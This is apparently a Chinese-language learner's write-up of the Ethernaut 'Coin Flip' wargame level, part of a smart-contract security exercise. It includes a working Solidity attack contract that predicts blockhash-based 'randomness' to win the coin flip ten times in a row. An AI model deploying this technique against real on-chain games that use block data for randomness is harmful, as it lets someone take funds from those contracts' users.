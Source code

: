 又只能看着wp做，/(ㄒoㄒ)/~~

但却是学到东西了：

```markdown
本關合約的問題源於使用block number作為隨機數，並且無預計到**呼叫者是智能合約**而非個人錢包的情況。只要使用智能合約呼叫即可保證呼叫者與被呼叫者block.number會相同，從而先計算出結果。
```





题目给的hint：

```
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the "?" page above in the top right corner menu, section "Beyond the console"
```





学习了。用合约（区块）来调用，而不是手动调用。

```solidity
pragma solidity ^0.6.0;

import './SafeMath.sol';

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlip {
    using SafeMath for uint256;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    address levelInstance;

  constructor(address _levelInstance) public {
      levelInstance = _levelInstance;
  }

  function guess() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    if (side == true) {
        ICoinFlip(levelInstance).flip(true);
    } else {
        ICoinFlip(levelInstance).flip(false);
    }
  }
}
```



这里要注意环境的injector，还有用 estimated gas。。。

![image-20250228203604935](./Coin Flip/images/image-20250228203604935.png)



然后开始guess。

注意，以太坊是15秒生成一个区块，所以我们隔15秒guess一次。

![image-20250228203633734](./Coin Flip/images/image-20250228203633734.png)



每次guess也要与metamask交互。我的理解：跨合约交互都要付gas？



点十次后，再回题目查看：

![image-20250228204608335](./Coin Flip/images/image-20250228204608335.png)

可以看到连续十次了，submit instance即可。

但submit instance的时候发现network fee不够。。。麻了。。。）